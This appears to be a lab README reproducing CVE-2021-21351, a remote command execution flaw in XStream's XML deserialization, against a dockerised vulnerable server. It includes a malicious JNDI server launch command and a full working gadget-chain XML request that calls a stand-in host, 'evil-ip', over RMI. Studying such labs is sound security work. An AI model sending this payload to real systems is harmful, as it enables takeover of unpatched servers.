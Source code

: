 # XStream Deserialization Remote Command Execution (CVE-2021-21351)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.15 and earlier, blocklists are incomplete and attackers could use `javax.naming.ldap.Rdn$RdnEntry` and `javax.sql.rowset.BaseRowSet` to make an JNDI injection and execute arbitrary commands finally.

Reference links.

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## Vulnerable Environment

Start a Springboot + XStream 1.4.15 server.

```
docker-compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

Since the target Java version is higher than 8u191, you need the help of `org.apache.naming.factory.BeanFactory` with EL expression injection to execute arbitrary commands, reference to [this article](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

Start a malicious JNDI server using [this tool](https://github.com/welk1n/JNDI-Injection-Exploit/).

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 192.168.1.142
```

![](2.png)

Using the RMI address based on the SpringBoot exploit gadget in the above screenshot as the value of `<dataSource>`.

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://evil-ip:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

`evil-ip` is the address of the malicious RMI server. It can be seen that ``touch /tmp/success`` has been successfully executed:

![](3.png)

If something goes wrong with the POC and Java version, the POC have to be modified by changing ``<__overrideDefaultParser>false</__overrideDefaultParser>`` to ``<__useServicesMechanism>false</__useServicesMechanism>`.
